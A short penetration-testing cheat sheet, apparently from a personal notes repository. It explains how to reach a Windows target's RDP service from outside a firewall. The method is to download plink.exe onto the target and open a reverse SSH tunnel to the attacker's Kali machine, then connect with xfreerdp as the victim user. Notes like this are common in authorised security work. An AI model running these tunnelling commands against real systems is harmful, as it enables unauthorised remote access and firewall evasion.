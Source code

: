 # Plink for Remote Desktop Connections

Used in case RDP service (usually 3389/tcp) is not accessible directly (i.e. not allowed through the external firewall)

1. On local machine (~Kali)
    1. Create a limited user[^1]
        
1. On target machine (Windows)
    1. Check first if somebody has currently connected to the host's RDP service
        * `#!bash qwinsta /server:<server_name>`
    1. Download *plink.exe* on the target machine
    1. Execute a reverse SSH connection using Plink.exe
        * `#!bash echo y | plink.exe <YOUR_IP> -P 22 -R 3389:127.0.0.1:3389 -l <created_limited_username> -pw <password>`
1. On the local machine (~Kali)
    1. Connect to the RDP service using an RDP Client
        * `#!bash rdesktop -g90x90 localhost` (Usually fails)
        * `#!bash xfreerdp /u:"<victim_machine_username>" /v:localhost:3389`



[^1]: [Instructions on creating a limited user](https://ostechnix.com/how-to-limit-users-access-to-the-linux-system/)